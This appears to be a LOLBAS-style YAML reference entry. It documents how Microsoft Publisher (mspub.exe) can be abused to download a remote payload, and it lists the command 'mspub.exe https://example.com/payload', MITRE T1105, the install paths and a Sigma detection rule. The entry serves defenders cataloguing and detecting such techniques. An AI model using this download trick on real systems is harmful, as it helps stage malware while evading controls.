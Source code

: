 ```yaml
---
Name: Mspub.exe
Description: Microsoft Publisher
Author: Nir Chako
Created: 2022-08-02
Commands:
  - Command: mspub.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSPUB.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_mspub_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: 'Nir Chako (Pentera)'
    Handle: '@C_h4ck_0'
---
```

